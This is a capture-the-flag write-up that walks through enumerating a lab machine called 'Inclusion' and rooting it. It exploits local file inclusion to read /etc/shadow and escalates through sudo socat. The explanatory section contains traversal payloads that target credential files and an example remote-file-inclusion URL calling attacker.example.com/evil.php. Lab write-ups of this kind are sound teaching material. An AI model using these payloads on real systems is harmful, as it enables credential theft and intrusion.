 ```yaml
---
title: "Inclusion"
tags:
  - Easy
  - Linux
  - nmap
  - LFI
  - socat
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|    Easy    |  |  10.10.16.93  |  |

---

Let's start off by running a basic `nmap` scan on the target machine with standard scripts loaded and version enumeration enabled. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

![screenshot1](../assets/images/inclusion/screenshot1.png)

As we can see, there are two services running on the target machine: **SSH (22)** and **HTTP (80)**.

Let's first check out the HTTP webserver. We are brought to this webpage:

![screenshot2](../assets/images/inclusion/screenshot2.png)

Looks like we have a simple blog.

Before conducting our happy-path enumeration, we can start a `gobuster` directory scan to see if we can enumerate any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common file extensions in our enumeration, such as .php and .js.

While the scan is going on, let's explore the website. 

Firstly, I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried searching for low-hanging fruit such as visiting the /robots.txt file, but those did not result in anything of use.

When I searched for something using the search bar on the top right of the webpage, I was simply redirected back to the homepage.

At the bottom of the web page, there were three sections dedicated to different blog posts. Looks like the posts taught us more about **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** attacks! This will be useful as I currently have no idea what those attacks are. 

Clicking on the 'View Details' button below the sections brought me to the blog posts. I checked the source code for each of these dedicated posts but there was nothing of interest.

Alright, time to learn more about LFI and RFI attacks.

---

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. 

Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input 'module' and the value to be the file 'contact.php'. Of course, it would seem that contact.php is in the same directory as the calling file and hence, the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file on the filesystem, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local /etc/shadow file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a PHP script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded:

```
https://example.com/?module=../../../uploads/malicious.php
```

The web server will then execute the script.

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a URL to another web server (controlled by the attacker) to execute malicious code that is hosted on that webserver. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

---

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. 

First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

![screenshot3](../assets/images/inclusion/screenshot3.png)

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practice file inclusion, which means that I could attempt to mount an attack there!

![screenshot4](../assets/images/inclusion/screenshot4.png)

It seemed that the web server was taking in an input 'name' and the filename that produced the wall of text shown on the page was called 'hacking'.

I'll try to change 'hacking' to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

![screenshot5](../assets/images/inclusion/screenshot5.png)

The attack worked! The contents of the /etc/passwd file is displayed by the web server. 

Next, I'll try if I can read the /etc/shadow file. If I can do so, I'll be able to obtain the credentials of users on the machine.

![screenshot6](../assets/images/inclusion/screenshot6.png)

Sure enough, I could read the /etc/shadow file. From the file, I saw that that there was a user account called **falconfeast**. His hashed password was also exposed. 

At this stage, I wanted to use `john` to crack this password. However, looking more closely at the file, I noticed a comment:

![screenshot7](../assets/images/inclusion/screenshot7.png)

On the right, we can see the text: 

> #falconfeast:rootpassword 

Could 'rootpassword' be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

![screenshot8](../assets/images/inclusion/screenshot8.png)

Nice, that was his password after all! 

With that, I was able to log into falconfeast's account and obtain **user.txt** from his home directory.

---

Now let's escalate our privileges. 

Before using a privilege escalation automation script like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I first did some manual enumeration. 

Firstly, I ran the command `sudo -l` to see what sudo privileges that falconfeast had:

![screenshot9](../assets/images/inclusion/screenshot9.png)

Looks like he can run `socat` as root! Next, I went to [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) to see if there were any vulnerabilities that I could exploit with this binary.

I managed to find a method using `socat` to spawn a shell as root:

![screenshot10](../assets/images/inclusion/screenshot10.png)

After running the command above, I managed to spawn a root shell:

![screenshot11](../assets/images/inclusion/screenshot11.png)

With that, I can easily navigate towards /root and obtain **root.txt**.

